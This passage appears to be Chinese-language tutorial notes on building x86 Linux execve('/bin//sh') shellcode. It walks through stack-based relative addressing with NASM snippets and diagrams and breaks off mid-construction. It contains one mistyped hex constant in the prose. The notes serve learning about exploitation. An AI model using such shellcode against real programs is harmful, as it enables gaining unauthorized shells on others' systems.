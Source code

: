 我们要想在shellcode中运行一个shell(这就是为何称为shellcode，获取控制的顶尖方法)可以`int execve(address of "/bin//sh", address of ["/bin//sh", NULL], NULL)`

shellcode中的地址都应该是相对取地址，因为不知道shellcode会被注入到程序的哪些部分，任何硬编码都是不可取的。

我们利用栈完成一切相对取址。通过操作我们使栈顶看起来这样

    +++++
    "/bin"  <-- 地址1：四字节，32位字符串,同时这里是栈顶，即esp(在ia32架构中是这样)
    +++++
    "//sh"  <-- 地址2：32位字符串，//在unix系统中与/并无区别
    +++++
    NULL    <-- 地址：空字符NULL
    ......

这是这几步

```nasm
xor ecx, ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
```

你好奇那些`0x687322f2f`什么的怎么来的？

    ~/Work/notes/shellcode ⮀ echo -ne "/bin//sh" |od -tx4
    0000000 6e69622f 68732f2f
    

将esp即字符串`"/bin//sh"`的地址推入ebx，推入第一个参数。之后将一个NULL推入栈，栈变成这样

    +++++
    NULL    <-- 新栈顶，NULL
    +++++
    "/bin"  <-- 地址1：四字节，32位字符串地址
    +++++
    "//sh"  <-- 地址2：32位字符串，//在unix系统中与/并无区别
    +++++
    NULL    <-- 地址3：空字符NULL，界定字符串
    ......

这几步如下，将NULL的地址推入edx

```nasm
push ecx
xor edx, edx
mov edx, esp
```

把字符串的地址推入栈，则栈如下所示：

    +++++
    地址1   <-- 新栈顶esp，也是数组[address of "/bin//sh", NULL]的地址
    +++++
    NULL    <-- NULL
    +++++
    "/bin"  <-- 地址1：四字节，32位字符串地址
    +++++
    "//sh"  <-- 地址2：32位字符串，//在unix系统中与/并无区别
    +++++
    NULL    <-- 地址3：空字符NULL，界定字符串
    ......
